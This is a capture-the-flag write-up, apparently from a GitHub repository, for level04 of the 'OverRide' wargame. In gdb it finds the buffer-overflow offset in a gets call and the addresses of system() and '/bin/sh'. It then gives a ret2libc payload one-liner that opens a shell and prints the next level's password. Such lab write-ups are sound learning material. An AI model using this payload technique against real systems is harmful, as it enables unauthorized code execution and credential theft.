 [README](../README.md)
# Level04
Normal program execution:
```
level04@OverRide:~$ ./level04
Give me some shellcode, k
oui
child is exiting...
```

The main function creates a child using `fork()`.
Parent process:
- Wait for the child process
- Check if the child process exited normally or if it was terminate by a signal.
- If true print "child is exiting..." and return.
- Otherwise reads a value on the register 44 of the child process, if this value is eleven, stop and send kill signal to child process

Child process:
- Ignores the signal sent when its parent process terminates
- Enable tracing of the process
- Prints "Give me some shellcode, k"
- Use `gets` to read user input into the buffer - **Not protected**

## Checking for the offset
[Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
```
level04@OverRide:~$ gdb level04
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 1699]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1699]
0x41326641 in ?? ()
```

We found an offset of 156 bytes to reach `eip`


## Finding system and "/bin/sh"
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

## Craft the exploit
```
|-------------------|
|      Padding      |   <--- Fill with junk bytes to reach the return address
|-------------------|
|   System Address |   <--- Overwrite with the address of system()
|-------------------|
|   Return Address |   <--- Return address for system (We don't care)
|-------------------|
|   "/bin/sh"      |   <--- Address of the string "/bin/sh"
|-------------------|
```

**Address of system() function**
system_address = "\xd0\xae\xe6\xf7"  # Little-endian format

**Address of "/bin/sh" string**
bin_sh_address = "\xec\x97\xf8\xf7"   # Little-endian format

**Offset to return address**
padding = "A" * 156

**Craft payload**
payload = padding + system_address + "AAAA" + bin_sh_address

```
level04@OverRide:~$ python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7")' > /tmp/level04
level04@OverRide:~$ cat /tmp/level04 - | ./level04
Give me some shellcode, k
ls
ls: cannot open directory .: Permission denied
whoami
level05
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```